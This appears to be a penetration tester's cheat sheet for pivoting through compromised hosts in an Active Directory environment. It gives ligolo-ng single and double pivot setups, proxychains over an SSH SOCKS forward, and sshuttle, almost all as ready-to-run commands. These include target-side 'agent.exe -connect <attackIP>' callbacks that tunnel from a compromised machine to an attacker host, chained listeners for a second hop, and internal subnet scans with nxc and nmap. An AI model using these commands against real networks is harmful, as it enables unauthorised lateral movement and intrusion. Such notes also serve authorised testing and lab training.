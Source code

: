 ```yaml
---
tags:
  - AD
---
```

## LigoloNG
---
[https://github.com/Nicocha30/ligolo-ng](https://github.com/Nicocha30/ligolo-ng)

### **Single pivot**

**Attack host:**
```bash
sudo ip tuntap add user kali mode tun ligolo ; sudo ip link set ligolo up
```
```bash
./proxy -selfcert -laddr 0.0.0.0:443
```
add route to new subnet
```bash
sudo ip route add 172.16.139.0/24 dev ligolo
```
**Target:**
```
agent.exe -connect <attackIP>:443 -ignore-cert
```
**Attack host:**
select session
```
session
```
add listeners
```bash
listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80
listener_add --addr 0.0.0.0:8081 --to 127.0.0.1:81
listener_add --addr 0.0.0.0:8082 --to 127.0.0.1:82
listener_add --addr 0.0.0.0:8083 --to 127.0.0.1:83
listener_add --addr 0.0.0.0:8084 --to 127.0.0.1:84
```
start tunnel
```bash
start
```
### **Double Pivot**
**Attack host:**
```bash
sudo ip tuntap add user kali mode tun double ; sudo ip link set double up
sudo ip tuntap add user kali mode tun ligolo ; sudo ip link set ligolo up
```
```
./proxy -selfcert -laddr 0.0.0.0:443
```
**Target:**
First pivot callback
```bash
agent.exe -connect <attackIP>:443 -ignore-cert
```
**Attack host:**
Add routes
```bash
sudo ip route add 172.16.139.0/24 dev ligolo
sudo ip route add 172.16.210.0/24 dev double
```
select session
```bash
session
```
add listener for second pivot
```bash
listener_add --addr 0.0.0.0:139 --to 127.0.0.1:443
```
add normal listeners
```bash
listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80
listener_add --addr 0.0.0.0:8081 --to 127.0.0.1:81
listener_add --addr 0.0.0.0:8082 --to 127.0.0.1:82
listener_add --addr 0.0.0.0:8083 --to 127.0.0.1:83
listener_add --addr 0.0.0.0:8084 --to 127.0.0.1:84
```
start first tunnel
```bash
start
```
**Second target:**
Call back to first pivot host from second
```bash
agent.exe -connect <targetONE>:139 -ignore-cert
```
add listeners to second host
```bash
listener_add --addr 0.0.0.0:5050 --to 127.0.0.1:50
listener_add --addr 0.0.0.0:5051 --to 127.0.0.1:51
listener_add --addr 0.0.0.0:5052 --to 127.0.0.1:52
listener_add --addr 0.0.0.0:5053 --to 127.0.0.1:53
listener_add --addr 0.0.0.0:5054 --to 127.0.0.1:54
```
start second tunnell
```bash
start --tun double
```
**Verify access**
```bash
nxc smb 172.16.139.10/24 
nxc smb 172.16.210.0/24
```

## proxychains (with SOCKS tunnel)
---
**Start with dynamic SSH port forward**
```bash
ssh -D 9050 user@<jumpIP>
```
**Check proxychains configuration**
```bash
cat /etc/proxychains.conf
or
cat /etc/proxychains4.conf
```
**Ensure its configured to route over the local forward**
```plaintext
# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```
**prepend `proxychains` or `proxychains4` to any command to tunnel the traffic**
```bash
proxychains nmap
proxychain msfconsole
proxychains firefox
```
!!! alert "we can only perform a full TCP connect scan over proxychains. The reason for this is that proxychains cannot understand partial packets. If you send partial packets like half connect scans, it will return incorrect results"
```bash
proxychains nmap -v -Pn -sT <internalIP>
```

## sshuttle
---
[https://github.com/sshuttle/sshuttle](https://github.com/sshuttle/sshuttle)

specify the option `-r` to connect to the remote machine with a username and password. Then we need to include the network or IP we want to route through
```bash
sudo sshuttle -r user@<jumpHost> 172.16.5.0/23 -v 
```
sshuttle creates an entry in our `iptables` to redirect all traffic to the 172.16.5.0/23 network through the pivot host.
We can now use any tool directly without using proxychains.
```bash
nmap -v -sV 172.16.5.19 -A -Pn
```
